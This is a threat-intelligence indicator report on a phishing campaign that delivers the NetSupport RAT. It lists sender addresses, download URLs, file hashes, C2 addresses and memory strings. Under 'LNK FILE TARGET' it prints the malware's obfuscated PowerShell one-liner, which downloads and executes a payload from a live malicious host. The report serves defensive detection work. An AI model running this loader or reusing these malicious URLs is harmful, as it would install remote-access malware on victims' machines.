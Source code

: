 
THREAT IDENTIFICATION:  NETSUPPORT RAT

SUBJECTS OBSERVED
Subjects were from (likely) previously stolen email threads.

SENDERS OBSERVED
jnurnvkuskf@videosdegratis.com
ihwekfjsd@liviooricchio.com

MALDOC DOWNLOAD REDIRECT URLS
https://drive.google.com/uc?id=1IHKmFN25youX7MlV1OMUoocIZtkIHiDP&export=download
https://drive.google.com/uc?id=1BlLPKkmFIv577UEQvlsGmoApDdI4k-Kb&export=download	

ZIP FILE HASHES
456595099.zip
05ffa6c918dfd60ef01783f0863cb94b

LNK FILE HASHES
456595099.lnk
a3aa6a60f78412fd60fc4826e3ef39d8

LNK FILE TARGET
C:\Windows\system32\conhost.exe  --headless powershell -c $je=$([char](225-120));set-alias a set-alias;a f $je'wr';a np $je'ex'; ;np (f -usebasicparsing 'dygb.pl/ef')

PAYLOAD DOWNLOAD URL
http://dygb.pl/ef

PAYLOAD HASHES
ef
e590d81dc79d873ae501b9889eba9593

OBSERVED NETWORK TRAFFIC
DNS Query for: asjvyy4jvos.com

LIKELY NETSUPPORT RAT C2
http://66.42.103.163/fakeurl.htm
http://66.42.103.163/location/loca.asp

STRINGS IN MEMORY
Netsupport Manager
Netsupport School
Netsupport Notify
NetSupport DNA SNMP Server
NetSupport Client

ALSO:
User-Agent: NetSupport Manager/1.3

SUPPORTING EVIDENCE
https://tria.ge/220815-276tashaej
